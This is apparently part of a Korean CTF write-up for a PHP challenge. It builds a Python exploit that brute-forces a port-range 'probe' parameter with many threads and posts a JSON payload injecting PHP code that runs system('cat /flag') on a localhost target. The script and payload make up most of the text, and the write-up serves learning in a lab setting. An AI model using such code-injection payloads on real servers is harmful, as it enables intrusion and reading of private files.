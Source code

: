 ### 2-3. 공격 페이로드 작성
운영체제마다 다르지만 리눅스에선 임시 포트가 32768에서 60999 사이에 할당되므로 요첨 범위를 설정해줌.

```python
EPHEMERAL_MIN = 32768
EPHEMERAL_MAX = 60999  # PHP 코드가 43개 포트 범위로 요청하므로 넉넉하게 잡음
MAX_TRIES = 10000  # 최대 시도 횟수 제한
```
JSON 페이로드를 보내기 위해 URL를 구성하고 페이로드와 헤더를 설정함.

```python
def send_attack(probe_start):
    url = f"{TARGET_URL}?probe={probe_start}"
    payload = payload_template.format(MAG)
    headers = {"Content-Type": "application/json"}```

응답의 HTTP 상태 코드가 200이고 응답 본문에 `"__HIT__"`가 포함되어 있으면 공격 성공으로 간주하여 `flag`값을 출력함

```python
        if response.status_code == 200 and MAG in response.text:
            print(f">>> HIT probe={probe_start}")
            print("\n".join(response.text.splitlines()[:10]))
```
작성된 최종 python 코드는 다음과 같음
```python
import requests
import random
import time
from concurrent.futures import ThreadPoolExecutor

# --- 설정 ---
TARGET_URL = "http://localhost:8080/index.php"
MAG = "__HIT__"  # PHP 코드가 echo하는 히트 마커
# JSON 페이로드: signal="Arrival"일 때 logogram 명령어 실행, 플래그 파일 cat 명령 포함
payload_template = '{"signal":"Arrival","logogram":"echo \\"{}\\n\\"; system(\'cat /flag\');"}'

EPHEMERAL_MIN = 32768
EPHEMERAL_MAX = 60999  # PHP 코드가 43개 포트 범위로 요청하므로 넉넉하게 잡음
MAX_TRIES = 10000  # 최대 시도 횟수 제한

def send_attack(probe_start):
    url = f"{TARGET_URL}?probe={probe_start}"
    payload = payload_template.format(MAG)
    headers = {"Content-Type": "application/json"}
    try:
        response = requests.post(url, data=payload, headers=headers, timeout=3)
        if response.status_code == 200 and MAG in response.text:
            print(f">>> HIT probe={probe_start}")
            print("\n".join(response.text.splitlines()[:10]))
    except requests.RequestException:
        pass  # 예외 무시, 재시도 로직도 가능

if __name__ == "__main__":
    print("Start Exploit Attack")
    tries = 0
    with ThreadPoolExecutor(max_workers=50) as executor:
        while tries < MAX_TRIES:
            probe = random.randint(EPHEMERAL_MIN, EPHEMERAL_MAX - 42)
            executor.submit(send_attack, probe)
            tries += 1
            time.sleep(0.005)  # 서버 과부하 방지

    print("Finished attack loop.")
```
